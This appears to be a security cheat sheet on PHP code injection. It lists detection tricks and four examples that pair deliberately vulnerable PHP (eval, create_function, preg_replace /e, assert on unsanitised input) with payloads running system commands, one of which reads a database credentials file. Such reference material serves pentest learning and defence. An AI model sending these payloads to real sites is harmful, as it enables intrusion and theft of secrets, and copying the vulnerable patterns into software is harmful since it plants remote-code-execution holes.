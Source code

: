 #### Detection
- `eval()` based code injection (user input interpreted/run as code)
- break syntax (`'` or `"`)
- comments injection (`/*0*/`)
- simple concatenation (`"."`)
- string concatenation (`"."in"."put"."` instead of `"input"`)
- time-based (`";sleep(0);//` vs `";sleep(5);//`)

#### Example 1

Payloads:
```
$host/x.php?name=";sleep(2);//
$host/x.php?name=in"."put
$host/X.php?name=";system('cat ../sqli/db.php');//
```

Code:
```php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
```

#### Example 2

Payload:
```
$host/x.php?order=id);}system('whoami');//
```

Code:
```php
$order = $_GET["order"];
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

#### Example 3

Payload:
```
$host/x.php?pattern=/str/e&new=system('whoami')&base=str
```

Code (PHP<7):
```
echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
```

Request:
```
$host/x.php?pattern=/str/&new=hax&base=Hello%20str
```

#### Example 4

Payload:
```
$host/x.php?name='.system('ls').'
```

Code (PHP<7):
```php
assert(trim("'".$_GET['name']."'"));
```
